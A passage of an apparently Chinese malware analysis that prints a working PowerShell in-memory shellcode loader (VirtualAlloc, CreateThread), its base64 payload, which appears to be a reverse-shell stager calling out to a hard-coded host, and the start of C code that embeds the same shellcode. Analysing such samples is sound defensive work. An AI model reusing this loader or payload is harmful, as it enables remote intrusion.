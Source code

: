 ```
        $parm6 = [AppDomain]::CurrentDomain.DefineDynamicAssembly((New-Object System.Reflection.AssemblyName('ReflectedDelegate')), [System.Reflection.Emit.AssemblyBuilderAccess]::Run).DefineDynamicModule('InMemoryModule', $false).DefineType('MyDelegateType', 'Class, Public, Sealed, AnsiClass, AutoClass', [System.MulticastDelegate])
        $parm6.DefineConstructor('RTSpecialName, HideBySig, Public', [System.Reflection.CallingConventions]::Standard, $parm4).SetImplementationFlags('Runtime, Managed')
        $parm6.DefineMethod('Invoke', 'Public, HideBySig, NewSlot, Virtual', $parm5, $parm4).SetImplementationFlags('Runtime, Managed')

        return $parm6.CreateType()
}

[Byte[]]$parm7 = [System.Convert]::FromBase64String("/OiCAAAAYInlMcBki1Awi1IMi1IUi3IoD7dKJjH/rDxhfAIsIMHPDQHH4vJSV4tSEItKPItMEXjjSAHRUYtZIAHTi0kY4zpJizSLAdYx/6zBzw0BxzjgdfYDffg7fSR15FiLWCQB02aLDEuLWBwB04sEiwHQiUQkJFtbYVlaUf/gX19aixLrjV1oMzIAAGh3czJfVGhMdyYH/9W4kAEAACnEVFBoKYBrAP/VUFBQUEBQQFBo6g/f4P/Vl2oFaHMctltoAgBlBonmahBWV2iZpXRh/9WFwHQK/04IdezoPwAAAGoAagRWV2gC2chf/9WD+AB+6Ys2akBoABAAAFZqAGhYpFPl/9WTU2oAVlNXaALZyF//1YP4AH7DAcMpxnXpw7vwtaJWagBT/9U=")

$parm8 = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((fun1 kernel32.dll VirtualAlloc),
 (fun2 @([IntPtr], [UInt32], [UInt32], [UInt32]) ([IntPtr]))).Invoke([IntPtr]::Zero, $parm7.Length,0x3000, 0x40)
[System.Runtime.InteropServices.Marshal]::Copy($parm7, 0, $parm8, $parm7.length)

$parm9 = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((fun1 kernel32.dll CreateThread), (fun2 @([IntPtr], [UInt32], [IntPtr], [IntPtr], [UInt32], [IntPtr]) ([IntPtr]))).Invoke([IntPtr]::Zero,0,$parm8,[IntPtr]::Zero,0,[IntPtr]::Zero)
[System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((fun1 kernel32.dll WaitForSingleObject), (fun2 @([IntPtr], [Int32]))).Invoke($parm9,0xffffffff) | Out-Null
```
从$parm7可以看出这还是通过base64加密的东西（WTF），所以我们再次通过Base64进行解密还是得到的是乱码所以我们再次仔细观察源码，并没有发现其它端倪，所以我们有理由猜测他是将编译后的二进制指令进行加密之后放到了里面。所以我们将解密之后的东西以16进制输出出来，然后通过程序将二进制指令压入指令栈中，构成一个可以运行的程序。我们可以使用Qt写出类似于下面这样的代码：
```
#include"stdafx.h"
#include<windows.h>

char shellCode[] =
"\xfc\xe8\x82\x00\x00\x00\x60\x89"
"\xe5\x31\xc0\x64\x8b\x50\x30\x8b"
"\x52\x0c\x8b\x52\x14\x8b\x72\x28"
"\x0f\xb7\x4a\x26\x31\xff\xac\x3c"
"\x61\x7c\x02\x2c\x20\xc1\xcf\x0d"
"\x01\xc7\xe2\xf2\x52\x57\x8b\x52"
"\x10\x8b\x4a\x3c\x8b\x4c\x11\x78"
"\xe3\x48\x01\xd1\x51\x8b\x59\x20"
"\x01\xd3\x8b\x49\x18\xe3\x3a\x49"
"\x8b\x34\x8b\x01\xd6\x31\xff\xac"
"\xc1\xcf\x0d\x01\xc7\x38\xe0\x75"
"\xf6\x03\x7d\xf8\x3b\x7d\x24\x75"
"\xe4\x58\x8b\x58\x24\x01\xd3\x66"
"\x8b\x0c\x4b\x8b\x58\x1c\x01\xd3"
"\x8b\x04\x8b\x01\xd0\x89\x44\x24"
"\x24\x5b\x5b\x61\x59\x5a\x51\xff"
"\xe0\x5f\x5f\x5a\x8b\x12\xeb\x8d"
"\x5d\x68\x33\x32\x00\x00\x68\x77"
"\x73\x32\x5f\x54\x68\x4c\x77\x26"
"\x07\xff\xd5\xb8\x90\x01\x00\x00"
"\x29\xc4\x54\x50\x68\x29\x80\x6b"
"\x00\xff\xd5\x50\x50\x50\x50\x40"
"\x50\x40\x50\x68\xea\x0f\xdf\xe0"
"\xff\xd5\x97\x6a\x05\x68\x73\x1c"
"\xb6\x5b\x68\x02\x00\x65\x06\x89"
"\xe6\x6a\x10\x56\x57\x68\x99\xa5"
```